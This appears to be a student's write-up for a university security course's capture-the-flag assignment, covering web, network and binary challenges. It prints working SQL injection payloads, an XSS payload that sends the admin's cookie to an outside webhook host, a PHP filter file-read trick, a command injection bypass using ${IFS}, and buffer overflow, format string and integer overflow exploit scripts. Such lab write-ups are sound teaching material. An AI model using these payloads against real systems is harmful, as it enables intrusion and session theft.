

# Assignment 2

## Section A: Warm Up

### A.1 Inspector (1 Point)

Just download all the files and run the `grep` command. Piece together the obtained flag pieces.

``` bash
$ grep  -rwn * -e 'flag '
Tan Ah Huey, Petya.html:301:                                    <p class="mb-5">Congratulations, you found the first section of the flag (1/4) cs2107{Ar3n't_</p>
Tan Ah Huey, Petya.html:381:        <!-- Congratulations, you found the second section of the flag (2/4): y0u_4_vE-->
Tan Ah Huey, Petya_files/scripts.js.download:71:  // Congratulations, you found the last section of the flag (4/4): gent_one}
Tan Ah Huey, Petya_files/styles.css:3:* Congratulations, you found the third section of the flag (3/4): ry_dilli
```

### A.2 Time to REST (1 Point)

Just follow instructions.

``` bash
$ curl -X POST http://cs2107-ctfd-i.comp.nus.edu.sg:2782/
Good job, here is the first 1/3 flag: cs2107{p0st_
Now to send a PUT request
$ curl -X PUT http://cs2107-ctfd-i.comp.nus.edu.sg:2782/
Great Update, here is the 2nd 2/3 of the flag: 4nd_update_b4_
Now send a DELETE request
$ curl -X DELETE http://cs2107-ctfd-i.comp.nus.edu.sg:2782/
Nice, here is the 3/3 of the flag: delete_42532}
```

## Section B: Network (6 Points)

### B.1 Learn Wireshark (1 Point)

Use Wireshark and follow the TCP streams. (Right Click > Follow > TCP Stream). Obtained streams are found in the files `b1-0.txt` and `b1-1.txt`.

### B.2 Hide and Seek (5 Points)

By following the TCP streams again, we can find that a username and password was used to access an FTP server, in Stream 34. In `b1.txt`, `USER cow` and `PASS cowhunt` can be found, so we can use these credentials to connect, and obtain `secret.zip`. The IP address is found on the packet.

``` bash
$ ftp 143.198.218.72
Connected to 143.198.218.72.
220 (vsFTPd 3.0.3)
```

Commands below are on the server.

``` bash
$ passive
Passive mode on.
$ ls
227 Entering Passive Mode (143,198,218,72,168,235).
150 Here comes the directory listing.
drwxr-xr-x    2 1000     1000         4096 Mar 15 09:12 files
226 Directory send OK.
$ get secret.zip
local: secret.zip remote: secret.zip
227 Entering Passive Mode (143,198,218,72,175,246).
150 Opening BINARY mode data connection for secret.zip (20988 bytes).
226 Transfer complete.
20988 bytes received in 0.01 secs (1.3688 MB/s)
```

Unlock the zip with the same password, and the `secret.png` contains the flag.

## Section C: Web (58 Points)

### C.1 Vaccine (4 Points)

Simple SQL injection with payload `' or ''='';--`.


### C.2 Superior Vaccine (8 Points)

The previous payload does not work, there is some SQL injection detection. However, even though the site mentions that admin is not allowed, looks like it still works with payload `admin';--`.



### C.3 Booster Vaccine (12 Points)

Only now is admin not allowed for the input, but since [we know the database is SQLite3, we can find that `||` is how we concatenate strings](http://atta.cked.me/home/sqlite3injectioncheatsheet). Then the payload can just be `ad'||'min';--`.


### C.4 aCross the Site (11 Points)

The vulnerability is clearly XSS, but only on the main webpage, not on the admin panel, so we just had to figure out to use something like [webhook](https://webhook.site/) to make the admin visit the vulnerable site to obtain the cookie, similar to [this write-up](https://medium.com/@renwa/security-fest-2019-ctf-entropian-web-write-up-f81fb11f675b). The `curl` request by the site was below and seen in `C4.png`.

The payload was `http://165.232.169.47:2777/?search=%3Cimg+src%3Dx+onerror%3Dthis.src%3D%27https%3A%2F%2Fwebhook.site%2F800d3ef2-b434-4d92-8b15-891044cda389%3Fc%3D%27%2Bdocument.cookie%3E`, and the result can be seen on [this webhook link](https://webhook.site/#!/800d3ef2-b434-4d92-8b15-891044cda389/b5b5699d-fef5-4702-81e7-edb00d0eb31a/1).

```bash
curl -X 'GET' 'https://webhook.site/800d3ef2-b434-4d92-8b15-891044cda389?c=flag%3Dcs2107%7Bn0w_y0u_s33_m3_x5S%7D'
```


### C.5 Local Host Is Safer Than Web (11 Points)

Simply having the parameter be `f=flag.php` loads the site in HTML, so maybe getting the file's source code could help. [This site shows using php filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion#wrapper-php-filter) so that it won't load the actual site but instead the source code in base64. So we can visit with the parameter `f=php://filter/convert.base64-encode/resource=flag.php`. In `Flags_ Not on localhost.html`, we can convert the base64 easily using CyberChef to obtain the source code, and subsequently the flag. At the top of the file, we have the following.

```php
<?php
// Ah man! You found it! It was indeed here.
// Here you go
// cs2107{1_a1nt_u2ing_php_4ga1n}
?>
```


### C.6 Web Tools (12 Points)

This is command line injection, but some characters like `;` and spaces are stripped. Fortunately, `|` still works, and we can use `${IFS}` for space as seen on [StackExchange](https://unix.stackexchange.com/a/351509). We use `ls` first to see the files available, then `cat` the appropriate file.

```bash
$ ping -c1 |ls
ping: usage error: Destination address required
requirements.txt
service.py
templates
the_flag_is_in_here.txt
$ ping -c1 |cat${IFS}the_flag_is_in_here.txt
cs2107{05_c0mm4nd_1nj3c710n_15_d4n63r0u5_50_b3_c4r3ful_y0}ping: usage error: Destination address required
```


## Section D: Binary (34 Points)


### D.1 BofSchool (2 Points)

At first glance it's just buffer overflow after 32 bytes going to the next function. [This link is a good reference as to what is happening.](https://cs.brown.edu/courses/csci1310/2020/assign/labs/lab3.html) We need `rip` to be pointing to the function `win()` to get the flag. [`radare2` can be used to obtain the address pretty quickly.](https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-1)

```bash
$ r2 bof
[0x004004d0]> aaaa
[0x004004d0]> afl~win
...
0x004005b7    1 34           sym.win
...
```

We notice that giving input that is will overflow the buffer will affect `rbp`.

```bash
(gdb) run
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005f8 in main ()
(gdb) i r
...
rbp            0x6161616a61616169  0x6161616a61616169
...
```

So then we just need some padding before the address for our `PAYLOAD`. Looking at `disas main` however, `leaveq` is called before `retq`. So on top of the 32 bytes in `buf`, the next 8 will be used to overwrite `rbp`, get popped, then the next 8 bytes will be the address of the next instruction in `rip`. This is explained in the first link given earlier.

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004005d9 <+0>:     push   %rbp
   ...
   0x00000000004005f7 <+30>:    leaveq
   0x00000000004005f8 <+31>:    retq
End of assembler dump.
```

The `PAYLOAD` is as follows. Script in `xpl.py`.

```Python
PADDING =  b'A'*(32+8)
RETURN_ADDRESS = 0x004005b8
PAYLOAD = PADDING +  p64(RETURN_ADDRESS)    # p64 converts an integer to 8-byte little endian bytestring format
r.sendline(PAYLOAD)
```

### D.2 CustomCat (8 Points)

The vulnerability here is now a [format string exploit](https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html), mainly due to the one line.

```C++
printf(input_filename);
```

`input_filename` is controlled by us, so we can leak the information on the stack! Using payload `%p.%p.%p.%p.%p.%p.%p` does give some addresses, but none of them match the given address printed by the program. Too long a payload and the program ends up crashing after printing the addresses. So we have to change the method, by accessing the addresses via their index i.e. `%i$p` where `i` is the integer index. We find that `i = 13` has the correct address, so then giving the payload of `%13$s` would give the flag. The Python script used is in `xpl.py`.

```bash
$ python3 xpl.py # i = 13
...
Enter a filename to print the contents of the file => 0x55ea5ab66260.0x55ea596f5630.0x7f53967f1bf7.0x1. cannot be found in the current directory.
Hint: Flag is at 0x55ea5ab66260
...
$ python3 xpl.py # PAYLOAD = b'%13$s'
...
Enter a filename to print the contents of the file => cs2107{4mat_y0uR_stRinGs_706c73}
 cannot be found in the current directory.
Hint: Flag is at 0x55cd52491260
...
```

### D.3 Vegas (12 Points)

[A write-up for almost the same exploit can be found on GitHub (thank you superkojiman).](https://github.com/VulnHub/ctf-writeups/blob/master/2016/tjctf/guess.md) Using basically the same logic, we just force `srand()` to get called multiple times by resetting it. At the same time, we run our own C program to get the output from the Python script using `subprocess`, and the values will match.

Vulnerable `srand()` in `reset()`:

```C++
void reset()
{
    puts("Believe you can change your fate?");
    current_time = time(NULL);
    printf("Tell me your name: ");
    read_string(name, 256);
    srand(current_time);
}
```

C program `guess.c` to generate numbers:

```C++
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
   srand(time(NULL));
   printf("%d", rand() % 100 + 1);
   return 0;
}
```

Python script to exploit server:
```Python
for i in range(7):
   r.sendline(RST)
   # necessary to get guess before sending NAME due to latency
   guess = check_output(['./guess'])
   r.sendline(NAME)
   r.sendline(PLY)
   r.sendline(guess)
```

Execution:

```bash
$ python xpl.py
...
$ $ $ KACHING! CONGRATULATIONS YOU HACKED THE JACKPOT!!! $ $ $

$ * $ * $ YOU'RE A MILLIONAIRE! $ * $ * $
cs2107{eV3rYdAy_1m_bUfF3r1nG}
...
```

### D.4 Address Book (12 Points)

The flag being displayed is controlled by whether a global variable, `is_premium_user`, is set. Using `gdb` we can find the addresses of all the global variables, which ends up helping us form the exploit.

```bash
(gdb) p &is_premium_user
$1 = (int *) 0x6020ac <is_premium_user>
(gdb) p &num_contacts
$2 = (int *) 0x6020b0 <num_contacts>
(gdb) p &contacts
$3 = (struct Contact (*)[20]) 0x6020c0 <contacts>
(gdb) p &contacts[-1]
$4 = (struct Contact *) 0x602098
```

Looking at the last result, we can see that negative indexing still works on the `Contact` array `contacts`, so if we can find a way to make `num_contacts = -1` then we can modify the value of `is_premium_user`. We then take a look at how `num_contacts` can be modified - especially in `delete_many_contacts()`.

```C++
void delete_many_contacts()
{
    printf("How many contacts would you like to delete? ");
    int delete_num = read_int();

    if (delete_num > num_contacts)
    {
        puts("]] You don't have that many friends.");
        return;
    }

    num_contacts -= delete_num;
    printf("]] Successfully deleted %d contacts.\n", delete_num);
}
```

There is absolutely no check that `delete_num` is positive! This means it can be negative, and so `num_contacts -= delete_num` can go as high as we want, then overflow to be negative. Choosing the values at or equal `INT_MIN` would work, and cause `num_contacts = -1`.

```bash
(gdb) p num_contacts
$5 = -1
```

Then we just `add_contact` with whatever value, modifying `is_premium_user`, and we can just input `999` to get the flag.

```Python
ADD = b'2'
DELA = b'4'

r.sendline(DELA)
r.sendline(b'-2147483647') # to MAX_INT
r.sendline(DELA)
r.sendline(b'-2147483648') # to -1

r.sendline(ADD)
# now &contact[-1] address is 0x602098
r.sendline(b'AAAAA') # name
r.sendline(b'AAAAA') # contact
# yay flag!
r.sendline(b'999')
```

```bash
$ python3 xpl.py
...
> cs2107{s1gn3d_v5_uns1gn3d_7h3r3_1s_a_d1ff3r3nc3}==========*****==========
1. List contacts
...
```